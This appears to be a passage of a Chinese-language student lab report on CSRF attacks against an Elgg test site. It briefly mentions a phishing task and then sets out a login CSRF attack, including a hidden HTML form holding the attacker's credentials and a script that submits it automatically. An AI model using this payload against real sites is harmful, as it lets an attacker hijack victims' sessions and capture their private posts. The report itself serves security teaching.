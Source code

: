 ​		编写钓鱼邮件并发送给Alice，Alice点击邮件内的恶意网址后，自动修改个人信息为“Samy is my hero”

<img src="C:\Users\86199\Desktop\web图片\e.png" alt="e" style="zoom:25%;" />

#### 3.3.3 任务三：实现Login CSRF攻击

> ​		假设你是攻击者Samy，你需要设计一个包含login CSRF的表单，表单的账户信息是攻击者Samy用户名和口令。这样，在用户Alice登陆以后Elgg，并点击了Samy发给他包含CSRF登陆的表单的URL，一旦Alice点击了该URL，她就以Samy的账号登陆了Elgg（自己的账户被下线）。那么Alice可能会发布一条不对外公开的博客（假设她始终没有意识到她现在登陆的是Samy的账户，她以为是在自己的账户上发布，其实是发布到了Samy的账户上），下线之后，攻击者Samy登陆自己的账户就能知道Alice刚刚发布的未公开的博客内容了。

​		以Alice身份登录并抓取登录表单信息，观察到URL为/action/login,同时需要包含用户名和密码信息

<img src="C:\Users\86199\Desktop\web图片\f.png" alt="f" style="zoom:38%;" />

​		构造的恶意网站Javascript代码如下图所示，填写正确的username参数和password参数均为Samy的，并添加自动提交的函数，这样Alice进入恶意网址就自动登陆成Samy的账号。

```html
<form method="post" action="http://www.csrflabelgg.com/action/login" class="elgg-form elgg-form-login">
  <fieldset>
    <input name="__elgg_token" value="3b7ba29a4a8fa5fb568389c21edf0fca" type="hidden">
	<input name="__elgg_ts" value="1527493857" type="hidden">
    <div>
      <label>Username or email</label>
      <input value="samy" name="username" class="elgg-input-text elgg-autofocus" type="text">
	</div>
    <div>
      <label>Password</label>
      <input value="seedsamy" name="password" class="elgg-input-password" type="password">
    </div>
    <div class="elgg-foot">
      <label class="mtm float-alt">
        <input name="persistent" value="true" type="checkbox">Remember me</label>
      <input value="Log in" class="elgg-button elgg-button-submit" type="submit">
      <ul class="elgg-menu elgg-menu-general mtm">
        <li><a class="registration_link" href="http://www.csrflabelgg.com/register">Register</a></li>
        <li><a class="forgot_link" href="http://www.csrflabelgg.com/forgotpassword">Lost password</a></li>
      </ul>
    </div>
  </fieldset>
</form>
<script>
	document.forms[0].submit();
</script>

```

​		Alice登陆后点击恶意网站会自动登陆成samy的帐号

<img src="C:\Users\86199\Desktop\web图片\h.png" alt="h" style="zoom:50%;" />
